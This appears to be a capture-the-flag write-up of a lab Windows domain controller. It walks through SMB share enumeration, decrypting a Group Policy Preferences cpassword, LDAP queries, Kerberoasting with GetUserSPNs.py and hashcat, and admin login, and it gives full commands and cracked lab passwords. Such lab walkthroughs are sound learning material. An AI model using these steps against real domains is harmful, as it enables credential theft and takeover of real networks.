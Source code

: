 ![[{F21DF797-2581-4C84-B7BC-73B9F1EC028D}.png]]


# Enumeration

## Nmap
```bash
sudo nmap -sV -sC -oA nmap/scan 10.129.213.81
Nmap scan report for 10.129.213.81 (10.129.213.81)
Host is up (0.042s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-07 09:08:09Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-07T09:09:04
|_  start_date: 2025-06-07T08:46:49

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  7 05:09:12 2025 -- 1 IP address (1 host up) scanned in 71.15 seconds

```

### Enum the shares
To enums the shares with anonymous authentication we can use tool such `smbmap`
```bash
smbmap -H 10.129.213.81
```
![[Pasted image 20250607160315.png]]

or even `crackmapexec`
![[Pasted image 20250607160426.png]]

In both cases we can note that have `READ` access only in `Replication` share

We can access to this share using `smbclient` and download all its content 
```bash
smbclient //10.129.213.81/Replication -N                           
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
under the path `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups` we can find the `Groups.xml` that contain the `cpassword` attribute (we see later) that contain the encrypted password of the user `SVC_TGS`

#### Group Policy Preferences (GPP) Passwords
When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.

These files can contain an array of configuration data and defined passwords. The `cpassword` attribute value is **AES-256 bit encrypted**, but Microsoft [published the AES private key on MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN), which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.

This was patched in 2014 [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30), to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.

The XML looks like the following:
![[Pasted image 20250607122209.png]]

To decrypt the AES-256 we can use `gpp-decrypt` tool
```bash
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

![[Pasted image 20250607161940.png]]


## FootHold
Now that we have a credential for `SVC_TGS` account try to check if we are able to connect in other shares
```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.213.81
```
![[Pasted image 20250607162052.png]]

Now connect to the smb share `Users` and navigate under the user's desktop to find the user.txt flag ``
```bash
smbclient  //10.129.213.81/Users -U "active.htb\SVC_TGS"
smb: \SVC_TGS\Desktop\> cd SVC_TGS\Desktop
smb: \SVC_TGS\Desktop\> get user.txt                    
```

## Privilege Escalation
We can query the ldap protocol to find other users in the DC.
```bash
ldapsearch -H LDAP://10.129.213.81  -x -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub '(&(objectCategory=person)(objectClass=User)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))' samaccountname | grep sAMAccountName
```

- `-s sub`: The `-s` option specifies the search scope. `sub` means a subtree search, including the base DN and all its child entries. **This is the most comprehensive search scope, as it traverses the entire directory tree below the base DN.**
- `'(&(objectCategory=person)(objectClass=User)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))'`: is an LDAP query to find all users object that are not **disable**.
	- `objectCategory=person`: Searches for objects in the category "person"
	- `objectClass=user` Narrows down to objects with  class of "user"
	- `(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))`: Excludes disabled accounts. The `userAccountControl` **attribute is a bit flag**; this part of the filter excludes accounts with the second bit set (which indicates a disabled account).

![[Pasted image 20250607152018.png]]

We can see the `Administartor` account is also active.

Now we can add `(serviceprincipalname=*/*)` in to the LDAP query to check if this account have `SPN` configured.
```bash
ldapsearch -H LDAP://10.129.213.81  -x -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub '(&(objectCategory=person)(objectClass=User)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))' serviceprincipalname | grep -B 1 servicePrincipalName
```

![[Pasted image 20250607154006.png]]
Its seems the `active.htb\administrator` account has been configured with a `SPN`.

We can check this with the `GrUsersPNs.py` script
![[Pasted image 20250607154336.png]]
Great this means we can perform a `kerberoasting` attack to retrieve the `TGS` ticket of administrator account
### Kerberoasting

To perform a `kerberoasting` attack we can use the same command above and adding the `-request` flag

```bash
GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.213.81 -request -outputfile Administrator_TGS
```

![[Pasted image 20250607154724.png]]

We can crack this TGS using `hashcat` with the `13100` module according with the "[hashcat table](https://hashcat.net/wiki/doku.php?id=example_hashes)".
```bash
hashcat -m 13100 Administrator_TGS /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20250607154948.png]]
Perfect now that we have the `Ticketmaster1968` password of Administrator account check, using `smbmap`, if we have access to other shares
![[Pasted image 20250607155231.png]]

Now all that remains for us to do is use `smbclient` navigate in the `USERS` share, under administrator's desktop and retrieve the admin flag.

```bash
smbclient //10.129.213.81/USERS -U Administrator%Ticketmaster1968
```

![[Pasted image 20250607162751.png]]


